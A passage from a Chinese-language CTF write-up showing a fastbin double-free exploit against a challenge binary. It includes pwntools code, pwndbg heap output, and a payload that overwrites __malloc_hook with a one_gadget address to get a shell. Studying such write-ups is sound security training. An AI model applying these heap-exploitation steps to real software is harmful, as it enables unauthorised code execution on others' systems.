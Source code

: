 ```python
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
```

效果如下

```shell
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x1d19320 ◂— 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
0x80: 0x0
```

#### 分配 malloc_hook 附近chunk

此时，fastbin 的链表为 b->a->b->a->…，则我们可以在申请第一个相同大小的 chunk 时，设置 b 的 fd 为 malloc_hook 附近处的 chunk `0x7fd798586aed`（这里是举一个例子，代码中需使用相对地址）。

```shell
pwndbg> print (void*)&main_arena
$1 = (void *) 0x7fd798586b20 <main_arena>
pwndbg> x/8gx 0x7fd798586b20-16
0x7fd798586b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fd798586b20 <main_arena>:	0x0000000000000000	0x0000000000bce130
0x7fd798586b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fd798586b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
pwndbg> find_fake_fast 0x7fd798586b10 0x7f
FAKE CHUNKS
0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
  prev_size = 15535264025435701248,
  size = 127,
  fd = 0xd798247e20000000,
  bk = 0xd798247a0000007f,
  fd_nextsize = 0x7f,
  bk_nextsize = 0x0
}
pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
$2 = 0x23
pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
$3 = 0x33

```

那么当再次分配 b 的时候，由于此时 b 的 fd 已经被我们修改为了malloc_hook附近的地址，所以这时候我们再次分配一个 chunk，就会指向 `0x7fd798586aed`。 此后便只需要将 malloc_hook 修改为 one_gadget 地址就可以拿到 shell 了。

```python
    # 3. fastbin attack to malloc_hook nearby chunk
    fake_chunk_addr = main_arena_addr - 0x33
    fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

    index_sentence(fake_chunk)

    index_sentence('a' * 0x60)

    index_sentence('b' * 0x60)

    one_gadget_addr = libc_base + 0xf02a4
    payload = 'a' * 0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60, 'f')
```
